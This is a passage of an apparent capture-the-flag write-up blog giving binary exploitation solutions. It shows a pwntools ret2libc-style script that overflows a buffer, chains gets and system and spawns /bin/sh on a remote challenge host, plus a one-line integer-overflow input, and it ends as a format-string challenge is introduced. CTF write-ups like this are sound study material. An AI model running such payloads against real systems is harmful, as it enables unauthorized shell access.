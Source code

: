     flag = 0x08048720
    system = 0x080483b0
    ret = 0x08048356
    gets = 0x08048390

    bss = 0x0804a028

    p = "A" * 76
    p += p32(gets)
    p += p32(system)
    p += p32(bss)
    p += p32(bss)

    r.sendline(p)
    r.sendline("/bin/sh")
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("jh2i.com", 50039)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

`FLAG : LLS{if_only_eagle_would_buffer_overflow}`

# Count dracula | Binary Exploitation

we were given service on jh2i.com 50037

solution :

to get the flag we can send `(2**31 +1)`

{% highlight python %}
from pwn import *
r = remote("jh2i.com",50037)
r.sendline("2147483649")
r.interactive()
{% endhighlight %}

unfortunately i can get the flag for writeup since the service is already down

# TackStack | Binary Exploitation

they just give us a service on jh2i.com 50038 , and there's format string
vulnerability on the service.

solution :
